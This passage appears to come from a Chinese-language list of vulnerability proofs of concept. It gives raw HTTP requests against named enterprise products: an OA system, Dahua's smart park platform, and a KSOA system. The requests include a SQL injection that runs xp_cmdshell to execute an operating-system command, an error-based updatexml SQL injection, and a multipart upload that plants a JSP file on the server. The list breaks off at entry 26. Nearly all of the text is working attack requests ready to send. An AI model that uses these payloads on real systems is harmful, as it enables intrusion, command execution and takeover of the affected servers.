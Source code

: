 ### 23、某和OA C6-GetSqlData.aspx SQL注入漏洞 POC

POST /C6/Control/GetSqlData.aspx/.ashx
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

exec master..xp_cmdshell 'ipconfig'

### 24、大华智慧园区综合管理平台 searchJson SQL注入漏洞 POC

GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close

### 25、大华智慧园区综合管理平台 文件上传漏洞 POC

POST /publishing/publishing/material/file/video HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="0EaE10E7dF5F10C2.jsp"

<%@page contentType="text/html; charset=GBK"%><%@page import="java.math.BigInteger"%><%@page import="java.security.MessageDigest"%><% MessageDigest md5 = null;md5 = MessageDigest.getInstance("MD5");String s = "123456";String miyao = "";String jiamichuan = s + miyao;md5.update(jiamichuan.getBytes());String md5String = new BigInteger(1, md5.digest()).toString(16);out.println(md5String);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="poc"

poc
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--

### 26、某友时空KSOA PayBill SQL注入漏洞 POC
